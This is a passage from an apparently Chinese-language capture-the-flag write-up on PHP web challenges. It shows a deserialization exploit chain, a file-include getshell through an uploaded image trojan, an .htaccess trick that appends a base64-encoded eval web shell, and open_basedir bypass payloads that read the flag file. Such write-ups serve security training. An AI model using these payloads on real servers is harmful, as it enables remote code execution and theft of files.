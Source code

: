 ```php
}

class jiangnaij
{
    protected $code;
    public function __construct()
    {
        $this->code = new dstbp();
    }
}
$j = new jiangnaij();
$m = new m1sery();
$m->ctf = $j;
$s = new s0rry();
$s->hint = $m;
echo urlencode(serialize($s));
```

## php_upload

文件上传后，直接包含！

```php
$wllm = waf($_GET["wllm"]);
include("$wllm");
```

先传图片木马，之后包含 `?wllm=upload/546abe96bee75c6fda395809c08708d1/m.gif`,既可getshell.

## ez_upload

`.htaccess`利用，base64编码绕过 `<`检测。修改MIME为jpg类型

```
php_value auto_append_file "php://filter/convert.base64-decode/resource=Tao.php"
```

```
# Tao.php 内容如下：
PD9waHAgZWNobyAiVGFvIjtldmFsKCRfUkVRVUVTVFswXSk7Pz4=
# 解码为：
# <?php echo "Tao";eval($_REQUEST[0]);?>
```

之后anstword  bypass disable_functions

或者

```php
?0=var_dump(new DirectoryIterator("glob:///f*"));
# /fllllllllllll4g
?0=mkdir('Tao');chdir('Tao');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo (file_get_contents('fllllllllllll4g'));
```
